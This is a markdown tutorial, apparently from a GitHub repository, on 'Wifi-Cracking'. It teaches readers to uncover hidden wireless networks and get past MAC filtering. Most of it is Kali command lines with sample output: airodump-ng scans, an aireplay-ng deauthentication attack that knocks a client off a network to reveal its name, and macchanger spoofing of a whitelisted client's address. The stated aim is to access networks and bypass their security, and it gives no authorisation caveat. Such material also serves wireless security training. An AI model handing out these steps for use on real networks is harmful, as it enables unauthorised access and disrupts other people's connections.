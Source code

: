# Wifi-Cracking (Part-1)   

#### [ HIDDEN NETWORKS / MAC FILTERING]
---


In this writeup we are going to learn how to gain access on networks and bypass their security features , we will be covering  following types of networks:

- Target Hidden networks
- Bypass MAC filtering
- Methods to gain access on
  - Captive portals
  - WEP, WPA, WPA2
  - Fake Access Points
  - WPA Enterprise

these are main topics but there are many subtopics in each main topic which we will discuss in depth so just follow us.

Let's begin with **HIDDEN NETWORKS**, a hidden network is one that does not broadcast its name or **ESSID** and problem with this types of networks are we can't connect even they are open networks, the solution to this problem is **airodump-ng** and **deauth auth**

**NOTE : Use your wireless adapter in monitor mode and use your  wireless adapter name in commands  whatever it is in our case we use wlan0**

Run: (to see all networks around you)

```bash
root@kali:~# airodump-ng wlan0

```
You will get something like This

```bash
CH  1 ][ Elapsed: 0 s ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus7T   
44:11:C8:21:7B:76   25 100       14       0     0   6  54e  WPA2 CCMP   PSK  NETGEAR
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              <length: 0>

```
simply to identify Hidden networks see **ESSID* field and there will be no name or <length : 0>
in the place so copy its MAC Address and run airodump-ng

```
root@kali:~# airodump-ng --bssid 63:16:F0:EC:76:F3  --chaneel 11 wlan0

```

```bash
CH  1 ][ Elapsed: 1 min ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              <length: 0>

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3  33:90:E9:50:A8:F4   -33   0 -21      0       9

```
(Don't quit this operation)

Sometimes just running the airodump-ng  will give you the name of the  network or just use **deauth attack** to anyone of the client which is connected to that network

```bash
root@kali:~# aireplay-ng --deauth 4 -a 63:16:F0:EC:76:F3 -c 33:90:E9:50:A8:F4 wlan0

```
Hit enter after some packet the name of network will be available

```bash
CH  1 ][ Elapsed: 1 min ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              XOXO

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3  33:90:E9:50:A8:F4   -33   0 -21      0       9

```

Now you get the name we want to connect with this network for this :

**NOTE : You cannot connect any network in monitor mode so reset your wireless adapter to managed mode because monitor mode is only used to capture the packets**

there are many options to do this either use **airmon-ng stop wlan0mon** or **iwconfig wlan0 mode managed** use any of the command as your wish or just simply disconnect your wireless apadter and connect it once again it will do your job and run .

```bash
root@kali:~# service network-manager start

```

![](img/access/g1.jpeg)
Now,
- Go to your wifi options select the options *connect to hidden wifi network*
- select security option and write the name you got.
- It will connect it successfully to a hidden network.

---
##### MAC FILTERING

**NOTE: wireless card in monitor mode**

Another chance you will be not able to connect an open network even if you know it key because that router must be using **mac filtering**, since MAC Address is unique to each network device, Routers can use **mac filtering** to allow/deny devices from connecting based on mac address, it works on :

- Using a blacklist- allow all MACs to connect except the ones in the list
- Using a whitelist- deny all MACs from connecting except ones in the list.

At first lets see how to bypass blacklist method

Run: (to see all networks around you)

```bash
root@kali:~# airodump-ng wlan0

```

```bash
CH  1 ][ Elapsed: 0 s ][ 2020-05-06 10:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus7T   
44:11:C8:21:7B:76   25 100       14       0     0   6  54e  WPA2 CCMP   PSK  NETGEAR
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN               XOXO

```

Run airodump-ng on that specific network to see clients connected to it

```bash
root@kali:~# airodump-ng --bssid 63:16:F0:EC:76:F3  --chaneel 11 wlan0

```
---

```bash
CH  1 ][ Elapsed: 45 sec ][ 2020-05-06 10:37                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              XOXO

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3   80:E9:59:77:4F:99  -33   0 -21      0       9

```
Output suggest that the client with this 80:E9:59:77:4F:99 address is in whitelist thats why it connected to it change your MAC address of wireless card to same as connected client

**NOTE: For connecting network change mode to managed**
(disconnect the card and again connect to machine) and use **macchanger** tool change MAC address

```bash
root@kali:~# ifconfig wlan0 down
root@kali:~# macchanger -m 80:E9:59:77:4F:99 wlan0

```
this command will to do the job see if you get any error or you want to change MAC Address in different way you can do it
Now if you go to wifi-settings and you will be able to connect to it because now you are in the whitelist.


Link to [Part-2](https://github.com/noob-atbash/wifi-cracking/edit/master/wifi-crackingP2.md)
Link to [Part-2](https://github.com/noob-atbash/wifi-cracking/edit/master/wifi-crackingP3.md)
Link to [Part-2](https://github.com/noob-atbash/wifi-cracking/edit/master/wifi-crackingP4.md)


**AUTHOR** - [Error](https://github.com/Error-200)

